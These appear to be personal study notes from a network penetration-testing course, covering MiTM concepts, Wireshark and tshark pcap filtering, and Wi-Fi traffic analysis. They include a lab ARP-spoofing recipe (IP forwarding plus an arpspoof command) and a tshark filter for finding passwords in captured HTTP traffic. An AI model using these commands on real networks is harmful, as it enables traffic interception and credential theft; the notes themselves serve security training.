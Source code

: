 1. Network attacks
	- Service related
	- MiTM attack
2. Packet analysis
3. Labs

Network Services:
- ARP
- DHCP
- SMB
- FTP
- Telnet
- SSH etc

MIM attacks:
- intercept traffic between 2 victims
- In the past, phy connection to the hub allows to view all traffic
- Now, switched dont allow that (smarterish) so, Common attack:
	- Connect to a SPAN port which listens too all traffic on a switch
	- ARP poisoning
		- Send out ARP req to say that attacker is a certain ip
		- All traffic for that ip is sent to the attacker (packets are bound to an ip addr)
	- Promiscuous mode --> listen to all traffic

### Configuring wireshark
pcaps --> readable and savable files to see network traffic
b4 capturing traffic choose the right eth

add coloumn by right clicking the column...add for more data eg source port/dest port etc

Right click on indiv reqs and follow TCP/HTTP streams etc to view the full req


### Tshark
`tshark -v`
`tshark -r filename.pcap`  --> spits out all the data (must filter/grep this data )
`tshark -r filename.pcap -z io,phs -q`  --> spits out hierachy of data (how many of each tpye of data)

total number of packets
`tshark -r HTTP_traffic.pcap | wc -l`

stop after first 100 packets
`tshark -r HTTP_traffic.pcap -c 100`

filtering tshark data
`tshark -r filename.pcap -Y 'http' | more` --> spits all http data

data sent between 2 hosts addr
`tshark -r filename.pcap -Y 'ip.src==192.168.252.128 && ip.dst==52.32.74.91 ' | more`

All the http get reqs
`tshark -r filename.pcap -Y 'http.request.method==GET' | more`

Set specific fields (here: Time | ip source | full url of http req)
`tshark -r filename.pcap -Y 'http.request.method==GET' -Tfields -e frame.time -e ip.src -e http.request.full_uri | more`

Look for a real expression inside packets (eg password)
`tshark -r filename.pcap -Y 'http contains password' | more`

Looking for ip dest sent for nytimes
`tshark -r HTTP_traffic.pcap -Y "http.request.method==GET && http.host==www.nytimes.com" -Tfields -e ip.dst`

OS of a given ip addr
` tshark -r HTTP_traffic.pcap -Y "ip.src==192.168.252.128 && http" -Tfields -e http.user_agent`

### ARP spoofing
- Fake that the given ip is at ur MAC address when it is not
set wire shark to the required interface (eth1 for this instance)

Configure the Kali instance to forward IP packets:
`echo 1 > /proc/sys/net/ipv4/ip_forward`

- Spoofs ur ip telling .36 that u r .37 --> .36 sends packet meant for .37 to you(.140)
- and tells .37 that you are .36 (ie MIM all traffic bewteen the 2 is captured)
`arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36`

### Wifi traffic analysis
- also using wireshark but diff interface

find traffic from a certain SSID
`wlan contains <SSID name>`

filter for data sent to a certain addr
`wlan.a`


tshark analysis
display only wifi trafic
`tshark -r WiFi_traffic.pcap -Y "wlan"`

display only deauth packets
`tshark -r WiFi_traffic.pcap -Y "wlan.fc.type_subtype==0x000c"`

display only WPA handshakes
`tshark -r WiFi_traffic.pcap -Y "eapol"`

display BSSID (MAC addr) from a given SSID
`tshark -r WiFi_traffic.pcap -Y "wlan.ssid==LazyArtists" -Tfields -e wlan.bssid`

Find device used by a give MAC addr
`tshark -r WiFi_traffic.pcap -Y "wlan.ta==5c:51:88:31:a0:3b && http" -Tfields -e http.user_agent`
